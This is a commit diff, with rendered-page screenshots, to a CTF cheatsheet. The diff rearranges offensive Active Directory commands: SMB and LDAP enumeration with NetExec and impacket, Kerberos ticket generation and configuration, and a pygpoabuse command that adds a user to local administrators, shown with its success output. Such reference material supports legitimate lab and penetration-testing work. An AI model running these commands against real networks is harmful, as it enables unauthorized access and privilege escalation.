

Before and after one commit to haxrbyte/ghost-shell, a Jekyll site: the page built from docs/Cheatsheets/ctf-cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 2542 px. Shown: the whole window at 94% size, without its empty margins (143-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Update ctf-cheatsheet.md

````diff
--- a/docs/Cheatsheets/ctf-cheatsheet.md
+++ b/docs/Cheatsheets/ctf-cheatsheet.md
@@ -43,6 +45,8 @@
 rusthound-ce --domain <domain_name> -k -no-pass
 ```
 
+---
+
 # SMB (AD)
 
 ## smbclient
@@ -53,13 +57,27 @@
 smbclient //<target>/<share> -U <username>%<password>
 ```
 
-## NetEXEC
+## impacket-smbclient
 
 ```bash
-uv run nxc smb <target> -k --use-kcache --generate-krb5-file <krb_configfile>
+impacket-smbclient <domainname>/<username>:<password>@<hostname>
+```
 
-export KRB5CCNAME=<user.ccache>
-uv run nxc smb <target> -k --use-kcache
+## NetEXEC (nxc)
+
+```bash
+nxc -L (list modules)
+
+ncx -M <module_name> --options (module options)
+
+nxc smb <target> -u <user> -p <password> --generate-hosts-file <hosts_file>
+
+nxc ldap <target> -u <user> -p <password> -M pre2k
+
+NOTE: uv - An extremely fast Python package and project manager, written in Rust.
+(https://github.com/astral-sh/uv)
+
+uv run nxc smb <target> -u <user> -p <password>
 ```
 
 ## BloodyAD
@@ -127,9 +145,51 @@
 ## GPO Abuse
 
 ```bash
-└─$ python3 pygpoabuse.py sysco.local/greg.shields:'5y5coSmarter2025!!!' -gpo-id '31B2F340-016D-11D2-945F-00C04FB984F9' -command 'net localgroup administrators greg.shields /add'
+└─$python3 pygpoabuse.py sysco.local/greg.shields:'5y5coSmarter2025!!!' -gpo-id '31B2F340-016D-11D2-945F-00C04FB984F9' -command 'net localgroup administrators greg.shields /add'
 [+] ScheduledTask TASK_11049927 created!
 ```
+
+---
+
+# Kerberos Auth
+
+```bash
+
+nxc smb <target> -k --use-kcache --generate-krb5-file <krb_configfile>
+
+---
+
+nxc smb ip -u server$ -p server -k
+
+nxc smb ip -u server$ -p server -k --generate-tgt ticket
+
+export KRB5CCNAME=<user.ccache>
+nxc smb <target> -k --use-kcache
+
+---
+
+Linux Kerberos File:
+/etc/krb5.conf
+
+[libdefaults]
+				default_realm = REALM_NAME.vl
+
+[realms]
+				REALM_NAME.vl = {
+				            kdc = dc.domain.vl
+				            admin_server = dc.domain.vl
+				}
+
+NOTE: sduo apt install krb5-user
+
+Update Password:
+kpassword SERVER$
+Password for SERVER$@domain.vl:
+Enter new password:
+
+```
+
+---
 
 # Remote Access
 
@@ -142,6 +202,8 @@
 ```bash
 python3 -m http.server <8080:port> -d <directory>
 ```
+
+---
 
 # Web Enumeration
 
@@ -181,6 +243,8 @@
 ```bash
 ffuf -request req.txt -request-proto http -mode clusterbomb -w usernames.txt:HFUZZ -w passwords.txt:WFUZZ
 ```
+
+---
 
 # Vulnerability Scanner
 
@@ -239,6 +303,8 @@
 ** Note: When you are finished with the stable shell and exit it, your local terminal's echo settings will still be off. You must type `reset` in your local terminal to return it to normal functionality.
 ```
 
+---
+
 # Python Virtual Environment
 
 ```bash
@@ -271,6 +337,8 @@
 https://0xdf.gitlab.io/
 ```
 
+---
+
 # Resources
 
 ```html
````
Also changed, not shown: other parts of docs/Cheatsheets/ctf-cheatsheet.md (+7 -0 lines).
